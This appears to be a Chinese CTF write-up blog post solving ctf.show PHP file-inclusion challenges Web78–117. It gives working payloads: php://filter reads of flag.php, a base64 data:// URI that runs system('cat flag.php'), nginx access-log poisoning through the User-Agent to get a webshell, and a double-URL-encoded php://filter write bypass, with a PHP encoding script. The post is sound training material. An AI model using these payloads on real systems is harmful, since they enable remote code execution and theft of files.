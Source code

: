 ```yaml
---
title: Web78-117文件包含
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210427144151.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-07-26 16:19:06
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1159230.jpg
---
```

## Web78
php://filter/read=convert.base64-encode/resource=./flag.php

## Web79
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

## Web80
包含日志文件 进行getshell 日志文件路径： ?file=/var/log/nginx/access.log
改ua写马。

## Web81
同上

## Web117
前面的要么重复要么是很久以前就做过的东西，就不写了。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210726155811.png)

还是死亡exit绕过，但是过滤了好多东西。
我看了出题人给的解法，用的一个其他的字符编码，还不错。
但其实这里根本不用这么麻烦，file_put_contents这东西它本身就是二次编码，所以直接：

	http://2ee28656-2bd6-4372-89f0-0b0505f20d16.challenge.ctf.show:8080/?file=php://filter/write=%7%33tring.%7%32ot13/resource=2.php

即可。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210726161119.png)

可能有人需要二次编码的脚本：

	<?php
	$string = 'php://filter/write=string.rot13/resource=2.php'; //需要二次编码的字符或字符串
	$result = '';
	for($i=0;$i<strlen($string);$i++){
		$char = $string[$i];
		for ($ascii1 = 0; $ascii1 < 256; $ascii1++) {
			for ($ascii2 = 0; $ascii2 < 256; $ascii2++) {
				$aaa = '%'.$ascii1.'%'.$ascii2;
				if(urldecode(urldecode($aaa)) == $char){
					echo $char.': '.$aaa;
					echo "\n";
					$result = $result.$aaa;
					break 2;
				}
			}
		}
	}
	echo $result;
	?>

出题人的解也放一下，不过我估计我记不住：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210726161515.png)

